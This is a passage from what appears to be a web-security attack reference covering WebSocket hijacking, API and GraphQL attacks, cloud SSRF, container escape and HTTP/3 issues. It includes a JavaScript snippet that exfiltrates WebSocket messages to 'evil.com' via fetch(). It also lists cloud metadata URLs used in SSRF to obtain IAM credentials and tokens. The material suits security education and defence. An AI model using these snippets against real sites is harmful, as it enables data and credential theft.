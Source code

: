 #### WebSocket Attack Example
```javascript
// Cross-Site WebSocket Hijacking
var ws = new WebSocket("wss://vulnerable-site.com/websocket");
ws.onmessage = function(event) {
    // Steal data from WebSocket messages
    fetch('https://evil.com/steal', {
        method: 'POST',
        body: event.data
    });
};
```

### API Security Vulnerabilities

#### Common API Attacks
- **Broken Authentication**: Weak API authentication
- **Excessive Data Exposure**: APIs returning too much data  
- **Rate Limiting Issues**: Lack of proper rate limiting
- **Injection Attacks**: SQL, NoSQL, command injection in APIs
- **Business Logic Flaws**: Exploiting API logic vulnerabilities

#### GraphQL Specific Attacks
- **Query Complexity Attacks**: Resource exhaustion through complex queries
- **Query Depth Attacks**: Deeply nested query attacks
- **Introspection Abuse**: Information disclosure through introspection
- **Batch Query Attacks**: Resource exhaustion through query batching

### Cloud-Specific Web Attacks

#### Server-Side Request Forgery (SSRF) in Cloud
```
# AWS metadata service
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Google Cloud metadata
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token

# Azure metadata
http://169.254.169.254/metadata/instance?api-version=2021-02-01
```

#### Container Escape Attacks
- **Docker Socket Exposure**: Access to Docker daemon
- **Privileged Container Abuse**: Escaping privileged containers
- **Host Path Mounting**: Accessing host filesystem
- **Capability Abuse**: Exploiting excessive container capabilities

### Emerging Attack Vectors

#### HTTP/3 and QUIC Attacks
- **Stream Multiplexing Abuse**: Resource exhaustion through stream manipulation
- **Connection Migration Attacks**: Exploiting connection migration features
- **0-RTT Replay Attacks**: Replay attacks on 0-RTT data
